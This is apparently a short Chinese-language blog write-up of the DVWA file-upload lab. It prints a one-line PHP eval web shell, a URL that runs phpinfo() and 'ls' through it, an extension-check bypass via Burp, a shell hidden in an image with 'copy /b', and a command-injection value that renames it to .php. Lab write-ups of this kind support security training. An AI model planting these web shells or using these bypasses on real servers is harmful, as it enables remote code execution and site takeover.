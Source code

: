 ```yaml
---
layout: post
title: File Upload
subtitle: File Upload
date: 2023-08-01 23:00
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - DVWA
  - 靶场实战
published: true
---
```

# 文件上传漏洞
### LOW

the.php

```php
<?php eval($_GET['bckdor'])?> 
```

构造url: http://192.168.30.131/dvwa/hackable/uploads/the.php?bckdor=

```php
phpinfo(); 
system('ls'); 
```

**中国菜刀**

```php
<?php eval($_POST['bckdor'])?>
```
### MEDIUM

将the.php改为the.jpg

![image.png](https://img.ghostliner.top/vt5Xwv.png)


burpsuit抓取request，修改文件后缀
### HIGH

准备图片image.png和hack.php

```shell
#生成带有木马的图片
#image.png/b中“b”表示“二进制文件”，hack.php/a中“a"表示ASCII码文件
copy image.jpg/b+hack.php/a hack.jpg
```

利用Command Injection

```
127.0.0.1|mv ../../hackable/uploads/hack.jpg ../../hackable/uploads/hack.php
```